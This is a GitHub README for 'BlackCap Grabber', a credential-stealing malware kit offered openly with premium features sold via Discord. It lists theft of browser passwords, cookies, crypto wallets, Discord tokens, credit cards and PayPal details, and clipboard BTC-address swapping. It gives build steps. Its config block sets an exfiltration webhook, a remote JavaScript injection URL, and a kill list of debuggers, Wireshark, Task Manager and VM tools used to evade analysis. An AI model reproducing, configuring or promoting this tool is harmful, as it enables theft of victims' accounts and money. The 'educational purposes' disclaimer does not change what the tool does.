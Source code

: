 # BlackCap Grabber v1.9

![](https://raw.githubusercontent.com/KSCHdsc/BlackCap-Assets/main/Banner.png)



##### [:gem: Premium](https://discord.gg/blackcap) - [💡 Features](https://github.com/BlackCap-Grabber/Arizona#features) 






<h1 align="center">
  🔰 BlackCap Grabber 
</h1>
<h1 align="center">
  🔰 DISCORD.GG/BLACKCAP
</h1>

<h2 align="center">
  BlackCap Grabber was made with

Love ❌ code ✅

</h2>

**NOTE:** \
BlackCap was made for educational purposes, therefor all consequences caused by your actions are **your** responsibility and accountability.

---

## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://discord.gg/blackcap)
- [🎉・Setting up BlackCap](#setup)
- [⚙・Config](#config)
- [📝・Changelog](#changelog)

## <a id="features"></a>🔰 〢 Features

# 💎 = Premium Features Join the discord to buy

```diff
> Default:

- Steal Steam / Minecraft / Metamask / Exodus / Roblox / NationGlory login
- Steal Chrome Passwords / Cookies / History
- Inject Discord / Discord Canary / Lightcord / Ripcord / Xcord
- Debug Killer (Kill task gestionary)
- Bypass TokenProtector / BetterDiscord
- Take a Screenshot
- Grabb System Informations
- Bypass Virus Total machines
- Bypass VM machines
- Hide Itself in Background
- Replace the BTC address copying by your (💎)
- Custom Installer / Setuper (💎)
- Icon / Name / Description Customizable (💎)
- Cookies Exploiter Tech (💎)
- Steal all Chromium Passwords and Cookies for OperaGX/Opera/GoogleChrome/Brave/Chromium/Torch/Edge/Mozilla and others (💎)
- 0/64 Detect Virus Total (.exe) (💎)
- Grabb Sensitive Files exodus login / a2f backup codes / tokens / passwords... (can be customizable) (💎)



> Injection:

- Nitro Auto Buy
- First Start Reporter
- New Passwords
- New Emails
- New Login
- New Credit Card
- New PayPal
- Anti Delete system (re install after Discord uninstall / Discord Update)
> + More!
```



## <a id="setup"></a> 📁 〢 Setting up BlackCap

1. Install [Python](https://www.python.org/downloads/)
2. Edit the Configuration [index.py](https://github.com/KSCHdsc/BlackCap-Grabber/blob/main/index.py#L52)
3. Double Click on [build.bat](https://github.com/KSCHdsc/BlackCap-Grabber/blob/main/build.bat) to build
4. You have your .exe file enjoy :)




## <a id="config"></a>⚙ 〢 Config

If you want to change the config (add your webhook), open up [index.py](https://github.com/KSCHdsc/BlackCap-Grabber/blob/main/index.py#L52) and locate it at the top. There you can configure the following:


```py 
{
    
__config__ = {
    'yourwebhookurl': "place your webhook here",#your discord webhook url 
    'blackcap_inject_url': "https://raw.githubusercontent.com/KSCHdsc/BlackCap-Inject/main/index.js",#my javascript injection (i recommand to not change)
    'hide': 'no',
    'kill_discord_process': True,#you want to hide grabber? ('yes' or 'no')
    'dbugkiller': True,#recommand to don't touch
    'blprggg':#don't touch this
    [
        "httpdebuggerui", 
        "wireshark", 
        "fiddler", 
        "regedit", 
        "cmd", 
        "taskmgr",
        "vboxservice", 
        "df5serv", 
        "processhacker", 
        "vboxtray", 
        "vmtoolsd", 
        "vmwaretray",
        "ida64", 
        "ollydbg", 
        "pestudio", 
        "vmwareuser", 
        "vgauthservice", 
        "vmacthlp",
        "x96dbg", 
        "vmsrvc", 
        "x32dbg", 
        "vmusrvc", 
        "prl_cc", 
        "prl_tools", 
        "xenservice",
        "qemu-ga", 
        "joeboxcontrol", 
        "ksdumperclient", 
        "ksdumper", 
        "joeboxserver"
    ]

}
}
```

---


## <a id="changelog"></a>💭 〢 ChangeLog

```diff
v1.9 ⋮ 2022-26-10
+ bug fix to search token
+ error message fixed
+ build with pyinstaller fixed

```

<a href=#top>Back to Top</a></p>

### Authors
- [KSCHdsc](https://github.com/KSCHdsc)
- [002Sans](https://github.com/002-sans)

### Contributors (CapingTeam)
- Xenis
- Nono1337
- Irax212
- Shamroks

# Terms
- [x] Educational purpose only
- [x] Reselling is forbidden
- [ ] You can use the source code if you keep credits (in embed + in markdown), it has to be open-source
- [x] We are NOT responsible of anything you do with our software (if its illegal)

![](https://raw.githubusercontent.com/KSCHdsc/BlackCap-Assets/main/mona-loading-dark.gif)
